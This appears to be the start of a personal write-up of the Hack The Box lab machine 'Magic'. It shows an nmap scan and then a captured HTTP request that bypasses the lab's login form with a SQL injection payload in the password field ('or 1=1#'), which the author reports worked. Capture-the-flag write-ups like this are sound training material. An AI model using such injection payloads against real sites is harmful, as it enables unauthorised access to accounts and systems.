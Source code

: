 ```yaml
---
layout: post
title: "HTB: Magic"
tags: htb
---
```


Omg it's been a month since I last wrote. Magic - here goes.

### Recce
```
# Nmap 7.80 scan initiated Mon Apr 20 00:23:23 2020 as: nmap -v -sC -sV -oN initial.txt magic.htb
Nmap scan report for magic.htb (10.10.10.185)
Host is up (0.31s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Really not much. Let's check out port 80.

### Port 80
We see the "Magic" page with a few funny pictures. At the bottom we see a link to the login page - let's go there. 

### Login page
Let's try defeating this. First up there's always the SQL bypass option:
```
POST /login.php HTTP/1.1
Host: magic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://magic.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Connection: close
Cookie: PHPSESSID=50s4cqbhtikt3cosjerujbvljn
Upgrade-Insecure-Requests: 1

username=admin&password=adsf'+or+1%3d1#
```
Ha-ha, it worked. Now we can login and do some uploads. :)
